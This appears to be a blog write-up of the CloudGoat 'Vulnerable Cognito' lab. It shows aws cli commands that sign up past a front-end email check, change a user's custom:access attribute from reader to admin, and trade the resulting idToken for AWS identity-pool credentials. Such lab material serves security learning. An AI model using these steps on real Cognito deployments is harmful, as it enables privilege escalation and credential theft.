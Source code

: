 ```yaml
---
title:  "CloudGoat: Vulnerable Cognito"
date:   2024-03-09
tags: cloudsecurity cybersecurity aws
last_modified_at: 2024-03-09
---
```


In this scenario, we were provided the login and signup page which used AWS Cognito Userpool as a backend to store a user data, and AWS Cognito IdentityPool which use Userpool as an identity provider. We can take advantage from misconfiguration of the AWS Cognito Userpool to get the AWS Cognito IdentityPool credentials.

## Sign up with desired email

After creating the scenario, you will get the url for index/login page. When you try to sign up with our desired email, you will get an error from email validation.

If you look at the html code of login page, you will find `ClientID` in it.

We can use the `ClientID` to bypass the email validation by using aws cli.
```shell
aws cognito-idp sign-up --client-id <client-id> --username <email> --password <password> --user-attributes '[{"Name":"given_name","Value":"lorem"},{"Name":"family_name","Value":"ipsum"}]' --region us-east-1
```

After signing up, you will get the confirmation code in your email.

To verify the user.
```shell
aws cognito-idp confirm-sign-up --client-id <client-id> --username <email> --confirmation-code <confirmation-code>
```

## Get Access Token
Now when we log in again, it will redirect us to the reader page (`reader.html`). This doesn't give us any information.

So we will explore more about the user with cli, but we need the access token.

We will capture the network packet to get the access token. There are many ways to do that.
- Burp Suite
- Network in Developer tools in web browser

For me, I use Chrome.

After we opened network tab in web browser, go back to login back and login with email and password again. Now you will see the access token. This happens when browser post to `cognito-idp.region.amazonaws.com`.

```json
{
    "AccessToken":"###"
}
```

I'm not sure whether we can get the access token in cookies or not, so I use the way above instead.
{: .notice}

## Get user detail
To get user data
```shell
aws cognito-idp get-user --access-token <access-token>
```

Result:
```json
{
    "Username": "24f0eab5-09f4-4395-bcbf-b6e1a18e887a",
    "UserAttributes": [
        {
            "Name": "custom:access",
            "Value": "reader"
        },
        {
            "Name": "sub",
            "Value": "24f0eab5-09f4-4395-bcbf-b6e1a18e887a"
        },
        {
            "Name": "email_verified",
            "Value": "true"
        },
        {
            "Name": "given_name",
            "Value": "lorem"
        },
        {
            "Name": "family_name",
            "Value": "ipsum"
        },
        {
            "Name": "email",
            "Value": "badix10958@fashlend.com"
        }
    ]
}
```

As you can see, one of the custom attributes is `custom:access`. Right now, our user is `reader`. If you investigate further in the html code in the login page, you will see that the user can be `admin`.

```js
if(access == 'admin'){
    window.location = "./admin.html";
}
else{
    window.location = "./reader.html"
}
```

## Change the custom attribute
We will change `custom:access` from `reader` to `admin`
```shell
aws cognito-idp update-user-attributes --access-token <access-token>  --user-attributes '[{"Name":"custom:access","Value":"admin"}]'
```

Now we got `admin` access.

This time we loged in again, it redirected us to admin page instead.

## Get Cognito Identity Credentials

After we were redirected to admin, if you check on Network tab in Developer tools, you will see `IdentityId` and cognito identity login url with `UserPoolId` and `idToken` of this user

```json
{
    "Logins": {
        "cognito-idp.<region>.amazonaws.com/{UserPoolId}": "<idToken>"
    },
    "IdentityId": "<IdentityId>"
}
```

Now we can get credentials from this user.
```shell
aws cognito-identity get-credentials-for-identity --region <region> --identity-id '<Id-found>' --logins "cognito-idp.<region>.amazonaws.com/<UserPoolId>=<idToken>"
```

Result:
```json
{
    "IdentityId": "us-east-1:43d6ab63-259f-c188-cc7d-18b40508783e",
    "Credentials": {
        "AccessKeyId": "AccessKeyId",
        "SecretKey": "SecretKey",
        "SessionToken": "SessionToken"
    }
}
```

We can create aws cli profile from this credentials. If you don't know how <a href="{% post_url 2024-03-05-cloudgoat-vulnerable-lambda %}">see here</a>

And with this credentials, we will get an assumed role `cognito_authenticated-vulnerable_cognito_###`

Thank you so much for reading until here. If you have any comments, suggestions, or recommendations, please reach me out at my [LinkedIn](https://www.linkedin.com/in/chayutpongpro/).

![mojito](/assets/images/mojito.jpg)
<sub><a href="https://unsplash.com/@kobbymendez?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash">Kobby Mendez</a> | <a href="https://unsplash.com/photos/three-clear-glass-cups-with-juice-xBFTjrMIC0c?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash">Unsplash</a></sub>
{: .text-center}
